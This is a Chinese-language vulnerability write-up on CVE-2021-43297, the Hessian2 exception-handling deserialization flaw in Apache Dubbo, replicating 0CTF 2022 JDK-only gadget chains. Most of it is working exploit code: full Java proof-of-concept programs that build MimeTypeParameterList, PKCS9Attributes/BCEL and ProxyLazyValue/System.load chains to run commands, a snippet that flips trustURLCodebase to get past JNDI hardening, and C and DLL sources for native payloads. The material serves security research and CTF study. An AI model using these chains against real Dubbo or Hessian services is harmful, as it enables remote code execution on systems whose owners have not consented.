# 0x01 Apache Dubbo Hessian2 expection 2 deser

参考：[Apache Dubbo Hessian2 异常处理时反序列化（CVE-2021-43297） (seebug.org)](https://paper.seebug.org/1814/)

虽是`Dubbo`的CVE，但是漏洞点和修复点都在`Dubbo`魔改的`Hessian`依赖包，原版的`Hessian`同样存在这个问题

## Reproduce

`Hessian2Input#readObject`

这个方法是这么描述的👇

> Reads an arbitrary object from the input stream when the type is unknown

也就是Hessian在反序列化时，根据输入流来判断类型



首先读取了输入流的一个字节（看到这里和`0xff`作与运算）

根据这个标记字节来决定反序列化的类型，67对应'C'，进入`readObjectDefinition` -> `readString`

```java
    case 'C':
      {
        readObjectDefinition(null);

        return readObject();
      }
```

这里不止67可以用，只要最后让他匹配不到类型抛出expect即可



`readString`又读了一次标记字节（`_buffer`头两个元素都是相同的标记字节）

但这次没有找到对应67的case，进入default，抛出了`expect`异常



这里继续对输入流进行反序列化，并将得到的对象obj拼接到异常错误信息中，妥妥的触发`obj.String()`

这里就和`Dubbo`那个`Exported Service Not Found`抛出异常的打法具有异曲同工之妙了

修复：Dubbo`3.2.13`中不进行obj的拼接



接下来就是ROME利用链了

`toStringBean#toString`->`getter` -> `JdbcRowSetImpl#getDatabaseMetaData` -> `InitialContext#lookup `

但若目标环境没有ROME依赖呢

接下来就来学习一下大佬们挖到的链子orz

# 0x02 Different Path of XStream

XStream有一条原生JDK的链子

```xml
javax.swing.MultiUIDefaults#toString
	UIDefaults#get
		UIDefaults#getFromHashTable
			UIDefaults$LazyValue#createValue
				SwingLazyValue#createValue
					javax.naming.InitialContext#doLookup()
```

这条链有两个限制

* `MultiUIDefaults`的访问修饰符是`default`，只有`javax.swing`才能使用它，Hessian反序列化时会出错
* 高版本JDK打不了JNDI

`Hessian`通过特定的反序列化器`Deserializer`反序列化，对类进行实例化，会先检查该类是否可访问`checkAccess`



> Class com.caucho.hessian.io.MapDeserializer can not access a member of class javax.swing.MultiUIDefaults with modifiers "public"

## MimeTypeParameterList + MethodUtil

大佬们找到了另一个可利用的`toString`类`javax.activation.MimeTypeParameterList`

```java
    public String toString() {
        StringBuffer buffer = new StringBuffer();
        buffer.ensureCapacity(this.parameters.size() * 16);
        Enumeration keys = this.parameters.keys();

        while(keys.hasMoreElements()) {
            String key = (String)keys.nextElement();
            buffer.append("; ");
            buffer.append(key);
            buffer.append('=');
            buffer.append(quote((String)this.parameters.get(key)));
        }

        return buffer.toString();
    }
```

`parameters`成员是`Hashtable`类型，而`UIDefaults`也刚好继承了`Hashtable`

看看`SwingLazyValue#createValue`



`createValue`能够调用类的静态方法或对类进行实例化

`sun.reflect.misc.MethodUtil`的`invoke`静态方法可以任意调用方法

因此我们得到一条新的链子

```xml
javax.activation.MimeTypeParameterList#toString
	UIDefaults#get
		UIDefaults#getFromHashTable
			UIDefaults$LazyValue#createValue
				SwingLazyValue#createValue
					sun.reflect.misc.MethodUtil#invoke
```

```java
import com.caucho.hessian.io.*;
import sun.swing.SwingLazyValue;
import javax.activation.MimeTypeParameterList;
import javax.swing.*;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class Test {
    public static void ser(Object evil) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output output = new Hessian2Output(baos);
        output.getSerializerFactory().setAllowNonSerializable(true);  //允许反序列化NonSerializable

        baos.write(77);
        output.writeObject(evil);
        output.flushBuffer();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        Hessian2Input input = new Hessian2Input(bais);
        input.readObject();
    }

    public static void main(String[] args) throws Exception {
        UIDefaults uiDefaults = new UIDefaults();
        Method invokeMethod = Class.forName("sun.reflect.misc.MethodUtil").getDeclaredMethod("invoke", Method.class, Object.class, Object[].class);
        Method exec = Class.forName("java.lang.Runtime").getDeclaredMethod("exec", String.class);

        SwingLazyValue slz = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invokeMethod, new Object(), new Object[]{exec, Runtime.getRuntime(), new Object[]{"calc"}}});

        uiDefaults.put("p4d0rn", slz);
        MimeTypeParameterList mimeTypeParameterList = new MimeTypeParameterList();

        setFieldValue(mimeTypeParameterList,"parameters",uiDefaults);
        ser(mimeTypeParameterList);
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

### Version Trap

上面的POC打不出来，本地调试的Hessian版本是`4.0.63`

该版本下Hessian在获取反序列化器时会对类进行检查

`com.caucho.hessian.io.ClassFactory#isAllow`判断类是否允许被反序列化，其维护了一个黑名单



`ClassFactory#load`把黑名单中的类都转为`HashMap`



试了一下降到`4.0.38`就可以了

### JNDI Breakthrough

高版本的JDK之所以有JNDI限制，是因为`trustURLCodebase`默认为`false`，禁用了RMI、CORBA和LDAP使用远程codebase的选项

* JDK 6u132, JDK 7u122, JDK 8u113后

  `com.sun.jndi.rmi.object.trustURLCodebase = false`

  `com.sun.jndi.cosnaming.object.trustURLCodebase = false`  

* JDK 6u211，7u201, 8u191, 11.0.1后

  `com.sun.jndi.ldap.object.trustURLCodebase = false` 



好巧不巧这个`java.lang.System#setProperty`就是个静态方法，可以用上面的`sun.reflect.misc.MethodUtil#invoke`去调用

稍微修改一下上面的POC

```java
Method setProperty = Class.forName("java.lang.System").getDeclaredMethod("setProperty", String.class, String.class);
SwingLazyValue slz = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invokeMethod, new Object(), new Object[]{setProperty, new Object(), new Object[]{"com.sun.jndi.ldap.object.trustURLCodebase", "true"}}});  
```

# 0x03 PKCS9Attributes + BCEL

和上面的`MimeTypeParameterList` + `MethodUtil`比较，这条链子就source和sink不同

* source 需要调用`HashTable#get`

`sun.security.pkcs.PKCS9Attributes#toString ` -> `PKCS9Attributes#getAttribute`





`this.attributes`刚好是`HashTable`

* sink 需要有可利用的静态方法或构造器

`com.sun.org.apache.bcel.internal.util.JavaWrapper#_mian`



实例化一个`JavaWrapper`之后进入`wrapper.runMain`



`loader`在实例化时被初始化为`com.sun.org.apache.bcel.internal.util.ClassLoader`（该ClassLoader继承了`java.lang.ClassLoader`）

但是BCEL的`ClassLoader`并不会对类进行初始化`initial`，所以不会马上执行静态代码块

得写一个`_main`让`runMain`走到后面的逻辑，调用恶意类的`_main`的时候才会执行静态代码块

设置`_main`方法为静态方法，才不会抛出异常

```java
public class Evil {
    static {
        try {
            System.out.println("static block");
            Runtime.getRuntime().exec("calc");
        } catch (Exception e) {}
    }
    public static void _main(String[] argv) throws Exception {
        System.out.println("_main");
        Runtime.getRuntime().exec("calc");
    }
}
```

```java
    public static void main(String[] args) throws Exception {
        JavaWrapper._main(new String[]{getBCEL(), "p4d0rn"});
    }

    public static String getBCEL() throws Exception {
        JavaClass javaClass = Repository.lookupClass(Evil.class);
        String encode = Utility.encode(javaClass.getBytes(), true);
        return "$$BCEL$$" + encode;
    }
```

> 输出
>
> static block
>
> _main

```java
public static Object bcel() throws Exception {
    UIDefaults uiDefaults = new UIDefaults();
    SwingLazyValue slz = new SwingLazyValue("com.sun.org.apache.bcel.internal.util.JavaWrapper", "_main", new Object[]{new String[]{getBCEL(), "p4d0rn"}});
    PKCS9Attributes pkcs9Attributes = createWithoutConstructor(PKCS9Attributes.class);
    Class clazz = Class.forName("sun.security.pkcs.PKCS9Attribute");
    Field pkcs = clazz.getDeclaredField("PKCS9_OIDS");
    pkcs.setAccessible(true);
    uiDefaults.put(((ObjectIdentifier[]) pkcs.get(null))[1], slz);
    setFieldValue(pkcs9Attributes, "attributes", uiDefaults);
    return pkcs9Attributes;
}
public static <T> T createWithoutConstructor(Class<T> classToInstantiate) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
    return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
}

public static <T> T createWithConstructor(Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
    Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
    objCons.setAccessible(true);
    Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
    sc.setAccessible(true);
    return (T) sc.newInstance(consArgs);
}
```

> 注：BCEL Classloader在 JDK < 8u251之前还在rt.jar里面 原生JDK

# 0x04 ProxyLazyValue + DumpBytecode + System.load

`jdk.nashorn.internal.codegen.DumpBytecode#dumpBytecode`是静态方法，能够写class文件



但由于ClassLoader的原因，`SwingLazyValue`这里只能加载`rt.jar`里面的类，而`DumpBytecode`类在`nashorn.jar`里面

`javax.swing.UIDefaults$ProxyLazyValue.createValue`



获取到classloader就能加载`nashorn.jar`了

创建一个动态链接库文件

* Linux生成so文件

```c
#include <stdlib.h>
#include <stdio.h>

void __attribute__ ((__constructor__))  calc (){
    system("calc");
}
```

`gcc -c calc.c -o calc && gcc calc --share -o calc.so`

* Windows生成dll文件

```c
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        calc();  // 进程附加时调用
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

// pch.cpp
#include "pch.h"
#include <stdlib.h>
#include <stdio.h>

void calc() {
    system("calc");
}

// pch.h: 预编译标头文件。
#ifndef PCH_H
#define PCH_H
#include "framework.h"
extern "C" _declspec(dllexport) void calc();
#endif //PCH_H
```

先写so/dll文件，再通过`System.load`加载动态链接库

```java
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import jdk.nashorn.internal.runtime.ScriptEnvironment;
import jdk.nashorn.internal.runtime.logging.DebugLogger;
import sun.misc.Unsafe;

import javax.swing.*;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class WriteFile {
    public static void main(String[] args) throws Exception {
        Unsafe unsafe = getUnsafe();
        Object script = unsafe.allocateInstance(ScriptEnvironment.class);
        setFieldValue(script, "_dest_dir", "E:/Server/");
        Object debug = unsafe.allocateInstance(DebugLogger.class);
        byte[] code = Files.readAllBytes(Paths.get("E:/calc.dll")); // 准备好的dll放在E盘根目录下
        String classname = "calc";

        // 写so/dll文件
//        UIDefaults.ProxyLazyValue proxyLazyValue = new UIDefaults.ProxyLazyValue("jdk.nashorn.internal.codegen.DumpBytecode",
//                "dumpBytecode", new Object[]{
//                script,
//                debug,
//                code,
//                classname
//        });

        //System.load加载so文件
        UIDefaults.ProxyLazyValue proxyLazyValue = new UIDefaults.ProxyLazyValue("java.lang.System", "load", new Object[]{
                "E:/Server/calc.class"
        });

        setFieldValue(proxyLazyValue, "acc", null);
        UIDefaults uiDefaults = new UIDefaults();
        uiDefaults.put("key", proxyLazyValue);

        Class clazz = Class.forName("java.awt.datatransfer.MimeTypeParameterList");
        Object mimeTypeParameterList = unsafe.allocateInstance(clazz);
        setFieldValue(mimeTypeParameterList, "parameters", uiDefaults);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(baos);
        baos.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(mimeTypeParameterList);
        out.flushBuffer();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        Hessian2Input input = new Hessian2Input(bais);
        input.readObject();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static Unsafe getUnsafe() throws Exception {
        Class<?> aClass = Class.forName("sun.misc.Unsafe");
        Constructor<?> declaredConstructor = aClass.getDeclaredConstructor();
        declaredConstructor.setAccessible(true);
        Unsafe unsafe = (Unsafe) declaredConstructor.newInstance();
        return unsafe;
    }
}
```

# 0x05 Reference

* [0CTF/TCTF 2022 hessian-onlyJdk - Bmth (bmth666.cn)](http://www.bmth666.cn/bmth_blog/2023/02/07/0CTF-TCTF-2022-hessian-onlyJdk/)

* [0CTF2022复现 | Z3ratu1's blog](https://blog.z3ratu1.top/0CTF2022复现.html)
* [0ctf2022 hessian-only-jdk writeup jdk原生链 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/11732)
